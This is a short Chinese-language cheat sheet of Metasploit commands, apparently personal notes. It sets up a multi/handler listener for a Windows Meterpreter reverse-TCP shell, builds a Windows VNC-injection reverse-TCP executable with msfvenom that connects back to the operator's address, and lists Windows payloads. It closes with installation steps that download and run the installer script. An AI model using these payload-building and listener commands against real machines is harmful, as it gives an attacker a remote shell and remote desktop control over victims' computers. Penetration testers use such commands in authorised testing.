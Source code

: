 # 0x01 常用命令
```
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.0.100
set lport 4444
run
```

# 0x02 远程控制
```
选择windows/x64/vncinject/reverse_tcp，设置AUTOVNC为false，run之后，再开启vncviewer，配置如下

msfvenom –p windows/x64/vncinject/reverse_tcp
AUTOVNC=false
LHOST=192.168.1.4
LPORT=8080
–f exe
–o 192.168.1.4-8080.exe
run

目标主机执行payload后，监听器需成功接收反连，然后打开vncviewer，访问127.0.0.1:5900
```

# 0x03 检索包含windows的Payload
```
经测试发现，每行开头有4个空格

msfvenom -l payloads | grep "^   windows"
```

# 0x04 各个平台下的安装
发现自己经常需要在新环境下安装Metasploit，每次都要查阅官方文档效率有点低，故有此笔记
```
# Windows下安装
下载安装器，地址：https://windows.metasploit.com/metasploitframework-latest.msi
一路下一步即可

# Linux（Ubuntu18.04）下安装
一条命令自动安装
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
chmod 755 msfinstall && \
./msfinstall

# 参考链接
https://docs.metasploit.com/docs/using-metasploit/getting-started/nightly-installers.html
```